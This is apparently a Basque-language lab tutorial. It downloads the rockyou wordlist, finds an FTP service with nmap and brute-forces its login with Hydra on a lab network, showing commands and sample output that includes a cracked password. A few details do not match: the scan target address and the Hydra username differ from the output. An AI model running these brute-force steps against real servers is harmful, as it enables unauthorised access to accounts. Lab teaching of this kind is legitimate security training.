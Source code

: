 ###  Rock you pasahitz dikzionarioa deskargatu 


https://github.com/zacheller/rockyou

```bash
cd
git clone https://github.com/zacheller/rockyou
cd rockyou
mkdir /usr/share/wordlists
tar xC /usr/share/wordlists -f rockyou.txt.tar.gz
```

### FTP zerbitzua aurkitu nmap-ekin

Erabili localhost edo sarea + maskara hurrengo aginduan

```bash
nmap -sCV -p20,21 127.18.0.0\16
```

Honelako erantzunen bat agertu beharko litzateke:
```bash
Nmap scan report for my-ftp-server.hacking-lab_pentesting-lab-network (172.18.0.6)
Host is up (0.000036s latency).

PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 2.0.8 or later
MAC Address: 02:42:AC:12:00:06 (Unknown)
```


### Erasoa Hydra erabiliz

```bash
hydra -l sinfor -P rockyou.txt ftp://172.18.0.6 -t 15
```

Mayuskula bada dikzionario bat erabiliko du, minuskula bada, parametro hori erabiltzaile/pasahitz gisa erabiliko da.

- -l erabiltzailea dakigu
- -L erabiltzailea dikzionario batetik hartuko du
- -P pasahitz dikzionarioa erabiliz
- -t 15 : 15 thread aldi berean

Honelako erantzun bat agertu beharko litzateke:

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-30 12:49:37
[DATA] max 15 tasks per 1 server, overall 15 tasks, 200 login tries (l:1/p:200), ~14 tries per task
[DATA] attacking ftp://172.18.0.6:21/
[21][ftp] host: 172.18.0.6   login: user   password: louise
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-30 12:50:06
```
